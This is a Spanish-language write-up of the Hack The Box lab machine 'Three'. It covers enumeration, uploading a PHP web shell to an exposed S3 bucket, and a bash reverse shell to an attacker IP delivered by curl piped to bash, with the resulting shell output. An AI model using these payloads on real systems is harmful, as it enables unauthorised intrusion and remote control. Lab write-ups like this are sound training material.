 # HTB: Three

## Nmap:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration:

### subdomain enum:

```bash
gobuster vhost -w ~/Hacking/Wordlists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.129.112.182
```

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://thetoppers.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/_1nkn0wn_/Hacking/Wordlists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/08 00:43:36 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb (Status: 502) [Size: 424]
Found: gc._msdcs.thetoppers.htb (Status: 400) [Size: 306]
                                                         
===============================================================
2022/10/08 00:46:33 Finished
===============================================================
```

Se encontro un s3 bucket {s3.thetoppers.htb}, al agregar el subdominio a /etc/hosts podremos ingresar a la pagina y visualizar {"status": "running"}

para poder interactuar con el servicio s3 buckets podemos utilizar la herramienta awscli 

utilizamos el comando ‘ls’ de awscli para listar objetos dentro del bucket 

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

resultado: 

```bash
PRE images/
2022-10-08 00:53:16          0 .htaccess
2022-10-08 00:53:16      11952 index.php
```

### Explotaition:

podemos visualizar que la pagina utiliza php como lenguaje de programacion, podemos utilizar el comando ‘cp’ de awscli para subir un archivo php malicioso como una shell para obtener ejecucion de comandos remota 

shell: 

```php
<?php system($_GET["cmd"]); ?>
```

aws command: 

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp ./shell.php s3:http://thetoppers.htb
```

ahora podremos ingresar a [http://thetoppers.htb/shell.php](http://thetoppers.htb/shell.php) y a traves del parametro ?cmd={comando} verificar si conseguimos RCE 

utilizando el comando whoami podemos ver que tenemos el usuario www-data

![Untitled](HTB%20Three%202c5b56a00cd041b99cd718e822d60218/Untitled.png)

creamos un archivo [shell.sh](http://shell.sh) con codigo bash para realizar una reverse shell y lo servimos a traves de un servidor python http 

```bash
echo 'bash -i >& /dev/tcp/10.10.16.11/8080 0>&1' > shell.sh
```

```bash
python3 -m http.server 8000
```

luego utilizando el comando ‘curl’ en la maquina objetivo podremos descargar el archivo [shell.sh](http://shell.sh) y utilizando el operador “pipe” { | } le diremos que lo ejecute 

previamente nos pondremos en escucha utilizando NetCat 

```html
nc -lvnp 8080
```

```html
http://thetoppers.htb/shell.php?cmd=curl%20http://10.10.16.11:8000/shell.sh|bash
```

resultado: 

```bash
listening on [any] 8080 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.25.112] 58680
bash: cannot set terminal process group (1694): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$ ls
ls
images
index.php
shell.php
shell.sh
www-data@three:/var/www/html$
```

### Flag:

utilizando el comando ‘locate’ podremos visualizar la Flag 

```bash
www-data@three:/$ locate flag.txt
locate flag.txt
/var/www/flag.txt
```

